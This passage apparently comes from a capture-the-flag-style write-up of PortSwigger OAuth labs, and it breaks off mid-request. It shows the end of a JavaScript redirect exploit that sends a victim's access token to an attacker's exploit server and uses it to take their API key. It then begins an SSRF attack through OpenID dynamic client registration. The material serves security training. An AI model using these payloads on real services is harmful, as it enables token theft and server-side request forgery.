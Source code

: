 ```
        window.location = 'https://YOUR-LAB-AUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
15. To test that the exploit works, store it and then click "View exploit". The page should appear to refresh, but if you check the access log, you should see a new request for ``GET /?access_token=[...]``.
16. Deliver the exploit to the victim, then copy their access token from the log.
17. In Repeater, go to the ``GET /me`` request and replace the token in the ``Authorization: Bearer`` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
18. Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.

## SSRF via OpenID dynamic client registration
Reference: https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration


### Solution
1. While proxying traffic through Burp, log in to your own account. Browse to ``https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/.well-known/openid-configuration`` to access the configuration file. Notice that the client registration endpoint is located at ``/reg``.
2. In Burp Repeater, create a suitable ``POST`` request to register your own client application with the OAuth service. You must at least provide a ``redirect_uris`` array containing an arbitrary whitelist of callback URIs for your fake application. For example:
```
POST /reg HTTP/1.1
Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```
3. Send the request. Observe that you have now successfully registered your own client application without requiring any authentication. The response contains various metadata associated with your new client application, including a new ``client_id``.
4. Using Burp, audit the OAuth flow and notice that the "Authorize" page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from ``/client/CLIENT-ID/logo``. We know from the OpenID specification that client applications can provide the URL for their logo using the ``logo_uri`` property during dynamic registration. Send the ``GET /client/CLIENT-ID/logo`` request to Burp Repeater.
5. From the "Burp" menu, open the Burp Collaborator client and click "Copy to clipboard" to copy your Collaborator URL. Leave the Collaborator dialog open for now.
6. In Repeater, go back to the ``POST /reg`` request that you created earlier. Add the ``logo_uri`` property and paste your Collaborator URL as its value. The final request should look something like this:
```
POST /reg HTTP/1.1
Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
```